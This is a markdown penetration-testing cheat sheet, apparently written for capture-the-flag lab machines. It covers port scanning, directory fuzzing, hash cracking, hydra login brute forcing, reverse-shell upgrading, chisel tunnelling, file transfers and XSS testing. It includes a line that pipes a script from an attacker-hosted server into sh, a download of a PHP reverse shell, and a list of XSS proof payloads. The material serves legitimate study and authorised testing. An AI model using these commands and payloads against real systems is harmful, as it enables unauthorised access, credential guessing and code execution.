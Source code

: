 # Common Commands/Techniques I Use Frequently (In no particular order)

Enumeration
------
### Port Scanning
- `IP=x.x.x.x`
- `sudo masscan -p1-65535 $IP --rate=1000 -e tun0 > ports`
- `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
- `nmap -Pn -sVC -vv -p$ports $IP`
### Web Directory Fuzzing
- `ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://xxxxxx.xxx/FUZZ -fc 404,400`
### VHost Fuzzing
- `ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -u https://test.url -H "Host: FUZZ.test.url"`
### Things to do on the Target Machine Once you Have a Foothold
- List listening ports on the machine `ss -ltn`
- List all files and folders including hidden ones in a directory `ls al`
- See if there is anything the current user can run as sudo `sudo -l`

Encryption/Decryption
------
### PGP
- Add an encryption key you've found to the keyring `gpg --import x.key`
- Use aforemntioned key to decrypt a file `gpg x.pdf.gpg`
### SSH
- Generate SSH keys for a user `ssh-keygen -f username`
### Hash Cracking
- Crack an MD5(APR) hash `hashcat -a 0 -m 1600 ./hash /usr/share/wordlists/rockyou.txt`

Login Brute Forcing
------
### FTP
- Use lists created by RoomPrepper (The createLists.sh script takes the users and passwords from the notes.md file and creates these lists) `hydra -L user.lst -P password.lst ftp://x.x.x.x`
### SSH
- Use lists created by RoomPrepper (The createLists.sh script takes the users and passwords from the notes.md file and creates these lists) `hydra -L user.lst -P password.lst ssh://x.x.x.x -t 4 -vV`
### Web
- Using hydra with a captured request using the format `hydra -l <username> -P <password_wordlist> <machine_ip> <request_type> '<login_page>:<request_body>:<invalid_notification>'`\
so an example command is as follows `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.174.201 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=c7UvYlF%2FOoYdanjSx3HqFGCZ9ktcaqHpKyHHiKbVfNezx4JX%2BkvSkLj9IH9GbWF4z41mnESai4vX%2FkWm576GotEhS3W66Cvoz9as16iMPgK0d6yqjJHRpODyonGR2%2Fp3%2FIM8LcN%2Fr5X7zNiaYMnBzEAjp8eFYgBqjCVyUgoP2v7tqlHu&__EVENTVALIDATION=PknlTsjoXO2tIIQR4GG4BnQkewRFwQjxfpAKT06eOvI%2FL%2F07msVZ7JUQ4nBX7RAnbfZRdZ2%2B4gUl2BdBAuoEtbsQww69pvT2jUbpA%2F00YfgzuX8de4fjki4HfD4SDig3jJjMjZoQBLYOdW2Y%2B8W%2FTf17Bdd0hRBOzS%2BpvBmRWe0UIBx7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv`
- Using hydra with some parameters instead of the entire login request example `hydra -l milesdyson -P log1.txt 10.x.x.x http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user`
- Using hydra to brute force a basic auth page `hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -s 80 -f enum.thm http-get /labs/basic_auth`

Upgrade Reverse Shell (To one that has autocomplete and won't be killed by Ctrl^C etc.)
------
### Using Python
1. In reverse shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. Press CTRL^Z to put the reverse shell in the background
3. In the host terminal (It should be at this stage now when the reverse shell has been backgrounded) `stty raw -echo; fg`
4. In the reverse shell that has now been foregrounded `echo TERM=xterm-256color` followed by `reset` if required

Find files
------
### Find Command
- `find / 2>/dev/null | grep desired_word`

Tunneling
------
### SSH
- Open an SSH session where all traffic to port 1111 on the target machine is forwarded to port 1111 on the attacking machine `ssh user@x.x.x.x -L 1111:localhost:1111`
### Chisel
1. Transfer chisel binary to target
2. Start chisel server on attacker machine `chisel server --reverse --port 9001`
3. On the target run `chisel client 10.x.x.x:9001 R:2049:127.0.0.1:2049`

Facilitation of File Transfers Between Attacker and Target
------
### Python web server
1. Start a simple web server from current working directory `python3 -m http.server 8000`
  - Download a file from aforementioned simple web server `wget http://10.x.x.x:8000/revsh.php` or `curl -O http://10.x.x.x:8000/chisel`
  - Run a file from aforementioned simple web server `curl http://10.x.x.x:8000/linpeas.sh | sh`

Web App Testing
------
### XSS
The first thing to do is to look for parameters or input fields on the page, put your unique and easy to find test data in (And submit it or whatever) and then inspect the resultant page to see wher your test data has ended up in the code. Understanding the context where it ends up will determine what type of payload you'll need to use (Try things like closing the tag/variable that it ends up in and/or commenting out any code after the payload, bypassing filtering/escaping/CSP for example). 
Things to consider:
- When dealing with an API, check the content type in the response headers. If its text/html as opposed to text/javascript etc. it could be susceptible to XSS. Send the request in a browser (Visit https://myapi.com/check.php?username=ghostbugg) and then do the usual to see if the html can be altered (Try https://myapi.com/check.php?username=<u>ghostbugg for example) etc.
- If your input ends up in a variable of a script or a span tag you can right click on it in the browser dev tools to edit it as HTML to see how the input is interpreted.
- If attacking a markdown box, try and insert a hyperlink payload (https://github.com/cujanovic/Markdown-XSS-Payloads/tree/master)
#### Common Example Payloads
- `"><u>ghostbugg` Initial test to see if we can add HTML to the page
- `;//` Javascript comment to stop any code after our payload being executed (Use only when required)
- `<script>alert(1337)</script>`
- `ghostbugg';alert(1337);//` Payload for scenario described above where our input ended up in a variable (Declared with apostrophes around it) within a script tag
- `<img src=xxxx onerror=alert(1337)>`
- `</textarea><img src=xxxx onmouseover=alert(1337)>`
- `<a href=javascript:alert(1337)>`
- `<iframe src=javascript:alert(1337)>`
- `<object data="data:text/html,<script>alert(1337)</script>"></object>`
- `<script src=data:text/javascript,alert(1337)></script>`

